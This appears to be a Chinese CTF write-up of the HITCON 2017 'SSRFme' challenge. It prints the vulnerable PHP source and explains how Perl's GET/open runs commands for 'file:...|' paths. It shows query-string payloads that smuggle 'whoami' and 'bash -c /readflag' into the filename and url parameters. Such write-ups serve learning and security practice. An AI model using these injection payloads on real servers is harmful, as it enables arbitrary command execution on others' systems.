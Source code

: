 # [HITCON 2017]SSRFme

## 知识点

`php代码审计`

`PERL函数漏洞`

## 解题

题目给了源码

```php
112.116.208.226 <?php
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];

    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data);
    highlight_file(__FILE__);
```

用`docker`在本地搭建一个环境

```bash
docker run -tid --name xiaopi -p 8080:80 -p 443:443 -p 9080:9080 -p 3306:3306 -p 20:20 -p 21:21 --privileged=true --restart always -v xiaopi_www:/www -v G:/yourcode:/www/wwwroot 1105646436/xp:xiaopi
```

![Alt text](img/25-1.png)

我不想路径被`ip`地址限制，根据

```php
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];
```

我将`$_SERVER["REMOTE_ADDR"]`改为了`1`

对应`orange1`的`md5`值就是固定的，即`b3e24b7672fddf21613da79b21ff7c99`

```php
$sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);
```

对应的路径就是固定的`sandbox/b3e24b7672fddf21613da79b21ff7c99`

这题的核心在于

```php
$data = shell_exec("GET " . escapeshellarg($_GET["url"]));
$info = pathinfo($_GET["filename"]);
$dir  = str_replace(".", "", basename($info["dirname"]));
@mkdir($dir);
@chdir($dir);
@file_put_contents(basename($info["basename"]), $data);
```

`GET`可以用来列举参数路径的目录（路径支持`file`协议）

漏洞在于`GET`命令执行过程中调用了`open`函数，而`open`函数存在任意命令执行的漏洞，只需要构造如下格式`payload`，并保证当前目录下存在以`payload|`为路径存在对应的文件就能实现任意命令执行。

```bash
GET file:Payload|
```

如执行`whoami`命令（需要注意携带`payload`访问两次页面，其中第一次用来创建对应路径的文件）。

```bash
?filename=whoami|&url=file:whoami|
```

![Alt text](img/25-32.png)

![Alt text](img/25-4.png)

![Alt text](img/25-5.png)

![Alt text](img/25-6.png)

需要执行根目录的`readflag`,交给`bash -c`即可

```bash
?filename=bash -c /readflag|&url=file:bash -c /readflag|
```

![Alt text](img/25-7.png)

![Alt text](img/25-8.png)

[参考文章](https://www.cnblogs.com/Article-kelp/p/16062717.html)

